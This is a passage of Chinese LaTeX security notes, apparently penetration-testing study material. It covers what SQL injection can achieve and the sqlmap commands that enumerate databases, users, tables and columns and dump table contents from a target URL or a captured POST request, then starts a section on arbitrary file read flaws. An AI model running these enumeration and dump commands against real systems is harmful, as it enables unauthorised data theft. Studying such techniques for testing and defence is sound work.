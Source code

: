 \subsection{注入的功效}
\begin{itemize}
    \item 文件读写。INTO\ OUTFILE、DUMPFILE、load\_file()。
    \item 提权。添加权限、添加用户。
    \item 文件读取。
    \item 数据库控制。
    \item SQL\ SERVER中系统命令执行。
\end{itemize}

\subsection{sqlmap}
使用\href{https://github.com/sqlmapproject/sqlmap}{sqlmap}可以直接注入。若注入点在参数中，可以直接:
\begin{lstlisting}
python sqlmap.py http://target.com?id=1
sql选项:
./sqlmap.py -u "注入地址" --dbs // 列举数据库
./sqlmap.py -u "注入地址" --current-db // 当前数据库
./sqlmap.py -u "注入地址" --users // 列数据库用户
./sqlmap.py -u "注入地址" --current-user // 当前用户
./sqlmap.py -u "注入地址" --tables -D "数据库" // 列举数据库的表名
./sqlmap.py -u "注入地址" --columns -T "表名" -D "数据库" // 获取表的列名
./sqlmap.py -u "注入地址" --dump -C "字段,字段" -T "表名" -D "数据库" // 获取表中的数据，包含列，就是脱裤
\end{lstlisting}
若注入点在POST请求中，可以用burp抓包后把请求包保存下来，然后直接:
\begin{lstlisting}
python sqlmap.py -r "post.txt" -p [ArgName] --[option]
\end{lstlisting}

\section{任意文件读取}
文件读取漏洞是指，攻击者通过手段读取服务器上不允许读取的文件。文件漏洞广泛存在的原因主要是:
\begin{itemize}
    \item web开发中轮子用得太多，开发者没有仔细了解应用框架、中间件的安全机制就直接使用。
    \item Web Server自身的问题或不安全的服务器配置。Web Server运行基本机制是从服务器读取代码和资源文件给解释器或CGI程序执行，然后把结果反馈给用户，中间涉及众多文件操作都可能被攻击者干预。
\end{itemize}

